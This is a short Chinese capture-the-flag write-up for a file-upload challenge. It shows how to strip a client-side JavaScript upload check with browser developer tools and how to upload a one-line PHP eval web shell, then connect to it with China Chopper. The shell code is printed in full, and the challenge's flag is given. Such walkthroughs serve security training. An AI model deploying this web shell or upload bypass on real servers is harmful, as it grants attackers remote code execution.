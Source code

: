 ```yaml
---
title: Web - 文件上传 JS 绕过
description: 2020-腾讯犀牛鸟网络安全-T-Star-高校挑战赛
---
```


## 解题思路

- 题目需要上传一个`webshell`到服务器，但是前端有 JS 校验，导致只能上传图片<br>
![IMG ONLY](img/t_star_upload_bypass01.jpg)
  - `hack.php`
    ```bash
    <?php @eval($_POST['hack']);?>
    # hack 为菜刀连接使用的密码
    ```
- 使用开发者工具删除`onsubmit`中调用`checkFile()`函数的过程，然后就可以直接上传 PHP 文件<br>
![前端修改](img/t_star_upload_bypass02.jpg)
- 打开菜刀，添加 SHELL <br>
![连接服务器](img/t_star_upload_bypass03.jpg)
- 连接后，在`www`目录下可以看到名为`key`的文件<br>
![检索目录](img/t_star_upload_bypass04.jpg)
- 内容即为 FLAG：`key{K735c9f0D7ddc3b9}`